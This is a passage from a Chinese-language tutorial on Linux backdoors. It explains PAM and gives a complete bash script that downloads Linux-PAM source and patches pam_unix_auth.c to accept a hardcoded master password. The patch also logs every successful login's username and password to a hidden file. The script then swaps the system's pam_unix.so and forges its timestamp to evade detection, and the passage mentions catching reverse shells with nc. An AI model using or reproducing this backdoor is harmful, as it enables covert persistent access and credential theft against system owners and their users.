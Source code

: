 使用nc监听回弹的shell。

### 6. Linux PAM密码记录后门（文件落地）

PAM(Pluggable Authentication Modules)，是由Sun提出的一种认证机制。它通过一共一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开，使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式而无需更改服务程序，同时也便于向系统中添加新的认证手段。这种后门主要是通过pam_unix_auth.c打补丁的方式潜入到正常的pam模块中，以此来记录管理员的账号密码。其大致流程如下：

1. 获取目标系统所使用的PAM版本，下载对应版本的pam版本
2. 解压缩，修改pam_unix_auth.c文件，添加万能密码
3. 编译安装PAM
4. 编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即可使用万能密码登陆，并将用户名密码记录到文件中。

一个自动化脚本如下：

```bash
#!/bin/bash
## 
##查看版本:
##redhat yum list pam
##debian&Ubuntu  dpkg -s libpam-modules | grep -i version | cut -d' ' -f2
##
PASS='test123' ##......
LOG='\/bin\/.sshlog' ##......

echo "
.___  ___.   ___     ___    _______  ____    ____ 
|   \/   |  / _ \   / _ \  |       \ \   \  /   / 
|  \  /  | | | | | | | | | |  .--.  | \   \/   /  
|  |\/|  | | | | | | | | | |  |  |  |  \_    _/   
|  |  |  | | |_| | | |_| | |  '--'  |    |  |     
|__|  |__|  \___/   \___/  |_______/     |__|   "
echo -e "\nPam-Backdoor\n{code this shit while learning pam}\n\n"
oldtime=`stat -c '%z' /lib/security/pam_ftp.so`
echo 'Pam backdoor starting!'
mirror_url='http://www.linux-pam.org/library/Linux-PAM-1.1.1.tar.gz'
#mirror_url='http://yum.singlehop.com/pub/linux/libs/pam/pre/library/Linux-PAM-0.99.6.2.tar.gz'，修改为对应的pam版本
echo 'Fetching from '$mirror_url
wget $mirror_url #fetch the roll
tar zxf Linux-PAM-1.1.1.tar.gz #untar,修改为对应的pam版本
cd Linux-PAM-1.1.1
#find and replace
sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'$PASS'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("'$LOG'", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c
DIS=`head /etc/issue -n 1|awk '{print $1}'`
#get the version
if [ $DIS = "CentOS" ];then
./configure --disable-selinux && make
else
./configure && make
fi
#copy modified pam_unix.so
if [ `uname -p` = 'x86_64' ];then
LIBPATH=lib64
else
LIBPATH=lib
fi
/bin/cp -rf /$LIBPATH/security/pam_unix.so /$LIBPATH/security/pam_unix.so.bak #.. .........
/bin/cp -rf modules/pam_unix/.libs/pam_unix.so /$LIBPATH/security/pam_unix.so
touch -d "$oldtime" /lib/security/pam_unix.so
cd .. && rm -rf Linux-PAM-1.1.1*
echo "Done bro.."
```